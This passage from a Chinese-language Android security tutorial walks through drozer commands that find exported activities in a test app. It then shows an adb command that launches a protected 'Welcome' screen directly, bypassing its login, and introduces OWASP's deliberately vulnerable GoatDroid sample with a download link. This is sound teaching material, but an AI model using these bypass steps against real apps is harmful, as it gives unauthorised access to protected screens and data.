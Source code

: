 1. 查看攻击面，发现两个导出的Activity

```bash
dz> run app.package.attacksurface com.isi.testapp
Attack Surface:
  2 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported
    is debuggable
```

2. 查看Activity具体信息，获得两个Activity名字
```bash
dz> run app.activity.info -a com.isi.testapp -i
Package: com.isi.testapp
  com.isi.testapp.MainActivity
    Permission: null
    Intent Filter:
      Actions:
        - android.intent.action.MAIN
      Categories:
        - android.intent.category.LAUNCHER
  com.isi.testapp.Welcome
    Permission: null
```

3. 尝试启动Welcome这个Activity，的确绕过了MainActivity的登录验证

```bash
$ adb shell am start –n com.isi.testapp/.Welcome
```

4. 这个是否多此一举呢？想看Welcome的Activity直接在layout看这个活动的布局不可以么？我们反编译apk找到这个布局文件来看一下!

```xml
<?xml version="1.0" encoding="utf-8"?>
<LinearLayout android:layout_height="fill_parent" android:layout_width="fill_parent" android:orientation="vertical" xmlns:android="http://schemas.android.com/apk/res/android">
    <Gallery android:background="@drawable/infosec" android:id="@id/gallery1" android:layout_gravity="center" android:layout_height="234.0dip" android:layout_marginTop="40.0dip" android:layout_width="278.0dip" />
    <TextView android:id="@id/tvdisplay" android:layout_gravity="center" android:layout_height="wrap_content" android:layout_marginTop="20.0dip" android:layout_width="wrap_content" android:text="Private Area" android:textColor="#ff0000ff" android:textSize="40.0dip" android:typeface="monospace" />
</LinearLayout>
```

如果将这个layout渲染过后的确可以看到和启动活动的一样的效果，但这是因为这个布局是写死的静态，如果这个Activity运行起来布局信息将作出更改，则我们也许可以看到一些敏感的信息，如案例中的华为网盘。

##### BroadcastReceiver暴露导致发送短信

> 样本fourgoats.apk介绍   
出自OWASP的GoatDroid项目，集成了一堆漏洞的APK，代码未经过混淆与加密，可以反编译后看到比较清晰的逻辑，分析漏洞成因。虽然是许多年前的项目，很多漏洞也早已消失，但对于入门的新手来说还是有一定的价值的。  
下载地址：https://pan.baidu.com/s/1o957Nku  密码:ssz9  
